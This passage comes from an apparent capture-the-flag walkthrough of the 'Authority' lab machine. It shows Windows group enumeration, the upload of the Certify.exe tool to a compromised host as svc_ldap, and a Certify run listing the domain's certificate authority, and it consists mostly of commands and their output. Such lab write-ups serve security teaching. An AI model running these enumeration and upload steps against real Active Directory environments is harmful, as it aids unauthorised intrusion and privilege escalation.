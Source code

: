 ```
*RDS Management Servers
*RDS Remote Access Servers
*Remote Desktop Users
*Remote Management Users
*Replicator
*Server Operators
*Storage Replica Administrators
*Terminal Server License Servers
*Users
*Windows Authorization Access Group
The command completed successfully.
```

`net localgroup "Cert Publishers"`:
```
Alias name     Cert Publishers
Comment        Members of this group are permitted to publish certificates to the directory

Members

-------------------------------------------------------------------------------
AUTHORITY$ ←
The command completed successfully.
```

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`cp ~/tools/SharpCollection/NetFramework_4.7_Any/Certify.exe ./certify.exe`

`upload ./certify.exe`:
```
Info: Uploading /home/kali/certify.exe to C:\Users\svc_ldap\Documents\certify.exe
                                        
Data: 238248 bytes of 238248 bytes copied
                                        
Info: Upload successful!
```

![Victim: svc_ldap](https://custom-icon-badges.demolab.com/badge/Victim-svc%5F_ldap-64b5f6?logo=windows11&logoColor=white)

`./certify.exe cas`:
```
   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v1.1.0

[*] Action: Find certificate authorities
[*] Using the search base 'CN=Configuration,DC=authority,DC=htb'


[*] Root CAs

    Cert SubjectName              : CN=authority-AUTHORITY-CA, DC=authority, DC=htb ←
    Cert Thumbprint               : 094E898B8AEE105E36FFF9CF5042EC8192B1586C
    Cert Serial                   : 11F5D60BB25D8D83454427809BA02F17
    Cert Start Date               : 4/22/2023 11:03:30 PM
    Cert End Date                 : 4/22/2123 11:13:29 PM
    Cert Chain                    : CN=authority-AUTHORITY-CA,DC=authority,DC=htb

```